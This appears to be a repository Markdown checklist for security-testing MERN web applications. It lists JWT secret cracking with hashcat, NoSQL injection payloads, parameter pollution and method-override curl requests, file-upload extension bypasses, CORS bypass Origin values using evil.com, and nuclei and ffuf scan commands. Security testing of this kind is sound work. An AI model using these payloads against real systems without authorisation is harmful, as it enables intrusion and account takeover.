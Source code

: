 ## Specific MERN Vulnerabilities to Test

### 1. Authentication Bypass
```bash
# Test JWT manipulation
jwt-cli decode <token>
# Test weak secrets
hashcat -m 16500 jwt.txt wordlist.txt
```

### 2. NoSQL Injection
```javascript
// Test payloads
{"$ne": null}
{"$regex": ".*"}
{"$where": "this.username == this.password"}
```

### 3. API Abuse
```bash
# Parameter pollution
curl -X POST -d "user=admin&user=guest" /api/login
# HTTP method override
curl -X POST -H "X-HTTP-Method-Override: DELETE" /api/users/1
```

### 4. File Upload Vulnerabilities
```bash
# Test file type bypass
file.php.jpg
file.php%00.jpg
file.php;.jpg
```

### 5. CORS Misconfigurations
```javascript
// Test CORS bypass
Origin: https://evil.com
Origin: null
Origin: https://trusted-domain.evil.com
```

## Automated Testing Commands

### Quick Security Scan
```bash
# Run the elite assessment script
./scripts/elite-blackbox-assessment.sh target.com

# Nuclei vulnerability scan
nuclei -u https://target.com -t vulnerabilities/

# Directory fuzzing
ffuf -w wordlist.txt -u https://target.com/FUZZ
```
